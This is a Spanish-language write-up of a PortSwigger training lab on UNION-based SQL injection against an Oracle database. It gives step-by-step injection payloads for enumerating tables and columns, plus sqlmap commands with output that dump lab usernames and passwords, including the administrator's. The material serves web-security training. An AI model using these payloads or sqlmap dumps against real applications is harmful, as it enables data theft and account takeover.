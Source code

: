 ```yaml
---
title: ""
date: 2024-11-15 12:36:00 +0800
lang: es-ES
author: Justice-Reaper
categories:
  - Portswigger
  - SQLI
tags:
  - SQL injection attack, listing the database contents on Oracle
  - SQLI (Error Based)
  - Oracle Database
image:
  path: /assets/img/Portswigger/Portswigger.png
---
```


## Certificaciones

- eWPT
- eWPTXv2
- OSWE
- BSCP
  
## Descripción

Este laboratorio contiene una `vulnerabilidad` de `inyección SQL` en el `filtro` de `categoría` de productos. Los resultados de la consulta se devuelven en la respuesta de la aplicación, por lo que hay que usar un `ataque UNION` para recuperar datos de otras `tablas`. La aplicación tiene una `función` de `inicio` de `sesión`, y la `base` de `datos` contiene una `tabla` que almacena `nombres` de `usuario` y `contraseñas`. Determinamos el `nombre` de esta `tabla` y las `columnas` que contiene, luego `recuperamos` el `contenido` de la `tabla` para obtener el `nombre` de `usuario` y la `contraseña` de todos los `usuarios`

---

## Resolución

Al `acceder` a la `web` nos sale esto

![](/assets/img/SQLI-Lab-6/image_1.png)

Si hacemos `click` en alguno de los `filtros`, nos filtrará los artículos por esta categoría

![](/assets/img/SQLI-Lab-6/image_2.png)

`Capturamos` la `petición` con `Burpsuite` y `añadimos` una `comilla` simple `'`

![](/assets/img/SQLI-Lab-6/image_3.png)

Si enviamos esta petición nos devolverá un `Internal Server Error`, lo cual quiere decir que estamos `interfiriendo` con la `consulta SQL` que se está produciendo

![](/assets/img/SQLI-Lab-6/image_4.png)

Si usamos este `payload` mediante el cual añadimos una comparación que `siempre` es `verdad` como `1=1`, ignoramos el resto de la consulta SQL con `-- - ` y enviamos la petición nuevamente no obtenemos ningún fallo, lo que quiere decir que la inyección `SQL` ha sido `exitosa`

```
/filter?category=Lifestyle'+or+1=1--+-+
```

![](/assets/img/SQLI-Lab-6/image_5.png)

Usando `order by` podemos saber el `número` de `columnas` que tiene la `tabla`, empleando este `payload` el resultado es un `200 OK`

```
/filter?category=Lifestyle'+order+by+2--+-+
```

Sin embargo, si empleamos este otro `payload` donde hacemos `order by 3`, nos devuelve un `Internal Server Error`, esto se debe a que al no existir tres columnas nos arroja un fallo

```
/filter?category=Lifestyle'+order+by+3--+-+
```

Una vez sabemos el número de columnas, usando `union select` vamos a obtener la información, en este caso, usamos `from dual` debido a que estamos ante una base de datos `Oracle`

```
/filter?category=Lifestyle'+union+select+null,null+from+dual--+-+
```

Confirmamos la `base` de `datos` en uso y también el su `versión`

```
/filter?category=Lifestyle'+union+select+null,banner+from+v$version--+-+
```

![](/assets/img/SQLI-Lab-6/image_6.png)

`Listamos` el `nombre` de todos los propietarios

```
/filter?category=Lifestyle'+union+select+null,owner+from+all_tables--+-+
```

![](/assets/img/SQLI-Lab-6/image_7.png)

`Listamos` el `nombre` de la `base` de `datos` en uso

```
/filter?category=Lifestyle'+union+select+null,global_name+from+global_name--+-+
```

![](/assets/img/SQLI-Lab-6/image_8.png)

`Listamos` las `tablas` cuyo `propietario` es `PETER`

```
/filter?category=Lifestyle'+union+select+null,table_name+from+all_tables+where+owner='PETER'--+-+
```

![](/assets/img/SQLI-Lab-6/image_9.png)

`Listamos` las `columnas` de la tabla `USERS_NWMYAE`

```
/filter?category=Lifestyle'+union+select+null,column_name+from+all_tab_columns+where+table_name='USERS_NWMYAE'--+-+
```

![](/assets/img/SQLI-Lab-6/image_10.png)

`Obtenemos` el contenido de las columnas `PASSWORD_NDAIAQ` y `USERNAME_SDYBVL`

```
/filter?category=Lifestyle'+union+select+PASSWORD_NDAIAQ,USERNAME_SDYBVL+from+USERS_NWMYAE--+-+
```

![](/assets/img/SQLI-Lab-6/image_11.png)

Podríamos obtener también la `contraseña` del usuario `administrator` usando `sqlmap`, lo primero es `listar` las `bases` de `datos`

```
# sqlmap -u 'https://0abf0062035a842480f72105002600f5.web-security-academy.net/filter?category=Pets*' --risk=3 --level=5 --random-agent --dbs --batch --threads 2   
available databases [7]:
[*] APEX_040000
[*] CTXSYS
[*] MDSYS
[*] PETER
[*] SYS
[*] SYSTEM
[*] XDB
```

`Listamos` las `tablas` de la base de datos `public`

```
# sqlmap -u 'https://0abf0062035a842480f72105002600f5.web-security-academy.net/filter?category=Pets*' --risk=3 --level=5 --random-agent -D PETER --tables --batch --threads 2 
Database: PETER
[2 tables]
+--------------+
| PRODUCTS     |
| USERS_GRCOPU |
+--------------+
```

`Listamos` las `columnas` de la tabla `users`

```
# sqlmap -u 'https://0abf0062035a842480f72105002600f5.web-security-academy.net/filter?category=Pets*' --risk=3 --level=5 --random-agent -D PETER -T USERS_GRCOPU --columns --batch --threads 2   
Database: PETER
Table: USERS_GRCOPU
[3 columns]
+-----------------+----------+
| Column          | Type     |
+-----------------+----------+
| EMAIL           | VARCHAR2 |
| PASSWORD_EJHRJL | VARCHAR2 |
| USERNAME_RZIDBZ | VARCHAR2 |
+-----------------+----------+
```

`Dumpeamos` el contenido de `password` y `username` de la tabla `users`

```
# qlmap -u 'https://0abf0062035a842480f72105002600f5.web-security-academy.net/filter?category=Pets*' --risk=3 --level=5 --random-agent -D PETER -T USERS_GRCOPU -C PASSWORD_EJHRJL,USERNAME_RZIDBZ --dump --batch --threads 2
Database: PETER
Table: USERS_GRCOPU
[3 entries]
+----------------------+-----------------+
| PASSWORD_EJHRJL      | USERNAME_RZIDBZ |
+----------------------+-----------------+
| mgbyibei3vhwt891natb | administrator   |
| l4yb7rhby75261r7u622 | wiener          |
| uhnlgaqk499jfc1lu576 | carlos          |
+----------------------+-----------------+
```

Una vez obtenida la contraseña del usuario `administrator` podemos `loguearnos`

![](/assets/img/SQLI-Lab-6/image_12.png)

